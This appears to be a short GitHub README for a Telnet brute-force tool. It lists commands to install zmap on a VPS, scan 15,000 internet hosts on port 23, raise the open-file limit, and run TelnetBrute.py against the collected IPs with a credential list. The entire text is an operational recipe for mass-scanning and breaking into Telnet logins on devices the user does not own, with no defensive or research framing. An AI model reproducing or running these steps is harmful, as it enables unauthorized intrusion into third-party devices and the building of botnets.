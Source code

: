[VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

zmap -p23 -o mfu.txt -N 15000 

- Bruteforce 

1- ulimit -n 999999

2- python TelnetBrute.py mfu.txt 15000 test.txt




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



